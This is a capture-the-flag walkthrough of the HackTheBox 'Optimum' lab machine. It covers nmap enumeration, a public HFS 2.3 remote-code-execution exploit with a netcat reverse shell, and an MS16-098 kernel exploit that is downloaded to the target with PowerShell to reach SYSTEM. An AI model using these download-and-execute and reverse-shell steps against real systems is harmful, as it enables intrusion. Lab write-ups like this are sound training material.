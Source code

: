 ```yaml
---
layout: post
title: HackTheBox Optimum
date: 2017-03-18
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis

Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete. ([Source](https://www.hackthebox.com/machines/optimum))

# Enumeration

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.8              
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.10.8
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   165.43 ms 10.10.14.1
2   165.50 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.69 seconds
```
![Website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Optimum/Website.png?raw=true)

The server is running `HttpFileServer 2.3 Exploit` and it is vulnerable to this [RCE](https://www.exploit-db.com/exploits/39161) exploit.  From the instructions of the code, it says that `You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).`. 

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# locate nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# cp /usr/share/windows-resources/binaries/nc.exe .

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Now we can start a netcat listener and run the exploit using `python <exploit>.py <Target IP address> <Target Port Number>`
```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nc -nvlp 443                                                        
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# python rce.py 10.10.10.8 80 
```
```cmd
C:\Users\kostas\Desktop>type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73

C:\Users\kostas\Desktop>systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          22/5/2021, 6:51:15 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.486 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.939 MB
Virtual Memory: In Use:    564 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
# Privilege Escalation

With the `systeminfo`, we can use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to find exploits.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# ./windows-exploit-suggester.py --database 2021-05-16-mssb.xlsx --systeminfo systeminfo.txt
...
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
...
```
After researching around, the vulnerability we are interested in should be ```MS16-098```.
```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# searchsploit ms16-098                                               
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Microsoft Windows 8.1 (x64) - 'RGNOBJ' Intege | windows_x86-64/local/41020.c
Microsoft Windows 8.1 (x64) - RGNOBJ Integer  | windows_x86-64/local/42435.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Optimum]
└─# searchsploit -m 41020.c             
```
Viewing the contents of the code shows that there is an executable online that we can use [here](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)!

Restart our python server and then download the executable from the victim's machine.

```cmd
C:\Users\kostas\Desktop>powershell wget "http://10.10.14.4/41020.exe" -outfile "exploit.exe"
C:\Users\kostas\Desktop>exploit.exe
...
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\kostas\Desktop>whoami
nt authority\system
C:\Users\kostas\Desktop>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```

